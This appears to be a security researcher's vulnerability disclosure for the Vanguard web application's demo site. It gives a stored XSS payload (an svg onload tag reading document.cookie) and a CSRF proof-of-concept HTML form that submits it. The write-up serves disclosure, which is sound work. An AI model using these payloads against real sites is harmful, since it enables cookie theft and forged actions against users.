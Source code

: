 ### Vanguard   XSS/CSRF

#### ADLab of Venustech

Well, when I pentest the official demo site of Vanguard, I found some vulnerabilities here.


#### XSS:

There're some stored-xss in this system, for example:

```
http://vanguard-demo.esy.es/search
```

POST para:
```
POST parameter：

phps_query=123'"><svg/onload=alert(document.cookie)><'"&phps_search=

------WebKitFormBoundaryfu9qSQ2wg10j0QFz
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Vanguard/xss.png)


#### CSRF:

Because of no protection here, we can use csrf attack to cheat the user to suffer from reflect-xss, or change something sensitive int the panel directly.
By the way ,I just found no protection in the user panel here.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://vanguard-demo.esy.es/search" method="POST">
      <input type="hidden" name="phps&#95;query" value="123&apos;&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;document&#46;cookie&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="phps&#95;search" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

